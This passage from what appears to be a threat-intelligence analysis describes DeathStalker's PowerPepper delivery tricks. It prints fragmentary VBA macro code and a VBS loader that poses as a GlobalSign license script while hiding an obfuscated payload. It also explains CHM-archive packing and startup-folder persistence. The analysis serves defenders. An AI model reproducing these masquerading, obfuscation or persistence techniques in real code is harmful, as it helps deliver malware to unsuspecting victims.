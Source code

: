 bell = "JohnSnow123"…Documents.Open FileName:=best & FName, PasswordDocument:=CStr(bell), Visible:=FalseDocuments.Item(FName).ActivateWith Application:            .Run "boat", belt…' this function is totally legit and if you are an av you should totally let us passFunction boat(both)…' checks if the type is 7If .Type = 7 Then…If .OLEFormat.Application = "Microsoft Word" And .OLEFormat.ClassType = "Package" Then            band = Split(.Hyperlink.Address, "ps://")            …            ball = ball & band(1)




Notably, these properties are leveraged as a second stage PowerShell script in the LNK-based delivery chain: the first stage PowerShell script, which is embedded in a malicious LNK file, will parse downloaded Word document contents to extract and run a second PowerShell script. These property artifacts can also contain parts of URLs, dropped files paths, or commands that are directly leveraged by macros in the macro-based delivery chain.
We can also see from the code extract above that DeathStalker uses macros to open another subdocument that is embedded in the first malicious document from the macro-based delivery chain. Last but not least, the comments are very helpful.
Trick #2: use Windows Compiled HTML Help (CHM) files as archives for malicious files
In the course of their PowerPepper delivery workflows, DeathStalker leverages CHM files as containers to better evade detection, and uses a Windows built-in tool called “hh” to unpack content, from VBA macros or an LNK-embedded PowerShell script.

All the files that are dropped on targeted computers from delivery chains and that are necessary to run PowerPepper are contained in these archives. The CHM files are embedded in the malicious Word (sub)document of the delivery chains.
Trick #3: masquerade and obfuscate persistent files
DeathStalker uses a Visual Basic Script (VBS) loader to start PowerPepper execution. The loader is launched immediately after delivery, and then at each computer startup, thanks to a companion launcher shortcut which is placed in a Windows startup folder.


Visual Basic


' Copyright (c) GlobalSign Corporation. All rights reserved.
'
' Abstract:
' licenseverification.vbs - Verify the GlobalSign software
'
' Usage:
' licenseverify [-software]
…
const L_Help_Help_General05_Text   = "-a     - add a port"
const L_Help_Help_General06_Text   = "-d     - delete the specified port"
…
const L_Help_Help_General34_Text   = "417079070765161B1C0eeeeeef610520C0F69331…
…
CreateObject(DelPort(L_Text_Msg_Port01_Text)).Run …+DelPort(L_Help_Help_General34_Text & "7260D3…




1234567891011121314

' Copyright (c) GlobalSign Corporation. All rights reserved.'' Abstract:' licenseverification.vbs - Verify the GlobalSign software'' Usage:' licenseverify [-software]…const L_Help_Help_General05_Text   = "-a     - add a port"const L_Help_Help_General06_Text   = "-d     - delete the specified port"…const L_Help_Help_General34_Text   = "417079070765161B1C0eeeeeef610520C0F69331……CreateObject(DelPort(L_Text_Msg_Port01_Text)).Run …+DelPort(L_Help_Help_General34_Text & "7260D3…
